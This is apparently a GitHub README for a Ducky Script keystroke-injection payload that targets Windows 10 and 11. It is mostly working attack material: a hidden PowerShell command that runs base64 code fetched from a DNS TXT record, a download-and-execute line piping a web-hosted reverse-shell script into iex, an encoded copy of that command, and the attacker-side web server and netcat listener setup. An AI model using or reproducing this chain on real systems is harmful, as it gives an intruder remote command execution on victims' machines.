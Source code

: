 # DNS-TXT-CommandInjection
Ducky Script uses Resolve-DnsName to perform a DNS name query resolution for a domain hosting a malicious TXT record. The payload leverages DNS TXT records to perform command injection. Windows Powershell is the CLI used by the payload. Replace the DNS TXT record for your domain with the base64 encoded payload you have. 
## Description
Author: Nate\
Target: Windows 10, 11\
Props: Hak5, Darren Kitchen, Korben\
Version: 1.0\
Category: Execution
## Configuration
1. A domain with the ability to manipulate the DNS TXT records.
2. Add command to DNS TXT records. See Links for an example of creating your DNS TXT record in AWS Route53 service.
3. Web Server hosting a file. In this example, python3 http.server was used to host a reverseshell.
4. Update powershellReverseShellOne-liner.ps1.
5. Set up istener on the attacker machine to reflect what is in powershellReverseShellOne-liner.ps1. Netcat was used in this example.
6. Provide URL used for Example #MY_TARGET_URL in DNS-TXT-CommandInjection.txt
## Notes
Other commands can be added to DNS TXT record rather than the example below.
No base64 can be used as an option by replacing "$a=",";powershell -e $a" with just "|iex" for the STRINGLN payload. Examples of the decoded command and encoded command are shown below to put into the DNS TXT record.

Decoded: "irm http://MY_TARGET_URL/T1.txt | iex"
Encoded: "aQByAG0AIABoAHQAdABwADoALwAvAGUAeABhAG0AcABsAGUALgBjAG8AbQAvAFQAMQAuAHQAeAB0ACAAfAAgAGkAZQB4AA=="

powershellReverseShellOne-liner.ps1 is identical to T1.txt. (shortened due to character limitations)\
ShoutOut: powershell reverse shell one-liner by Nikhil SamratAshok Mittal @samratashok. See link below.
## Windows Commands (used in payload)
### Execute DNS TXT Payload
```Powershell
powershell /w 1 $a=(resolve-dnsname #MY_TARGET_URL TXT).strings;powershell -e $a
```
### Execute web hosted Powershell Reverseshell
```Powershell
irm http://MY_TARGET_URL/T1.txt | iex
```
## Linux Commands
### Web Server to host a file
```Bash
python3 -m http.server 80
```
### Netcat listener
```Bash
nc -lvnp 1337
```
### Links

[Powershell Reverseshell One-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

[Create TXT record in AWS Route53](https://www.entrust.com/knowledgebase/ssl/how-to-create-a-txt-record-on-amazon-aws-route-53-for-entrust-email-validation-method)
